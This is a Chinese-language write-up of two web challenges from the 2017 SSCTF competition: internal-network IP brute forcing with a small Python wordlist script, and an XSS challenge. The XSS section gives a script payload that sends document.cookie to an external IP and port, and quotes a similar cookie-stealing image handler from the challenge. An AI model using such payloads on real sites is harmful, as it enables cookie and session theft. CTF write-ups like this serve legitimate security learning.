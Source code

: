 ```yaml
---
title: 2017 SSCTF Writeup
tags: [write-up]
date: 2017-05-08 00:20
---
```

2017 SSCTF Writeup
<!-- more -->
<link rel="stylesheet" type="text/css" href="http://static.blog.csdn.net/css/csdn_blog_detail.min.css">
<div class="markdown_views"><p>这周两场比赛赶在了一起，ssctf没来的急打，现在补一下。</p>
<h1 id="web">WEB</h1>
<h2 id="0x01-捡吗">0x01 捡吗？</h2>
<p>本题是道内网访问的题目少不了的就是内网扫描 <br>
首先生成字典</br></p>
<pre class="prettyprint"><code class=" hljs livecodeserver">f = <span class="hljs-built_in">open</span>(<span class="hljs-string">'1.txt'</span>,<span class="hljs-string">'w'</span>)
<span class="hljs-keyword">for</span> i <span class="hljs-operator">in</span> range(<span class="hljs-number">255</span>):
    f.<span class="hljs-built_in">write</span>(str(i)+<span class="hljs-string">'\n'</span>)</code></pre>
<p>利用burpsuit爆破 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170507230001271?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
发现了网段中的可靠ip 190 <br>
后来等hint放出来  <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170507230310803?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
直接访问ftp这里用大写 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170507230409006?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170507230538585?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></br></img></br></br></img></br></br></br></img></br></p>
<h2 id="弹幕">弹幕</h2>
<p>一道xss的题目，在网页刚开始刷新的时会出现一个弹框 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170507235446936?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170507235455389?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></br></img></br></p>
<p>里面的内容是 <br>
<code>&lt;img src="/static/images/welcome.gif" onload="c=encodeURIComponent(document.cookie);if(c.length&gt;32){a=new Image();a.src='/xssHentai/request/1/?body='+c;}"&gt;</code></br></p>
<p>输入<code>http://117.34.71.7/xssHentai/</code>是个登录界面最简单的注入注进去 <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170507235831517?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></br></p>
<pre class="prettyprint"><code class=" hljs asciidoc">构造payload
&lt;script&gt;var img =new Image();img.src = "<span class="hljs-link_url">http://45.78.29.252:8888/?a="+document.cookie;document.getElementsByTagName("head")</span>[<span class="hljs-link_label">0</span>].appendChild(img);&lt;/script&gt;</code></pre>
<p>发现中间如果是4不行如果是1可以接收到flag</p></div>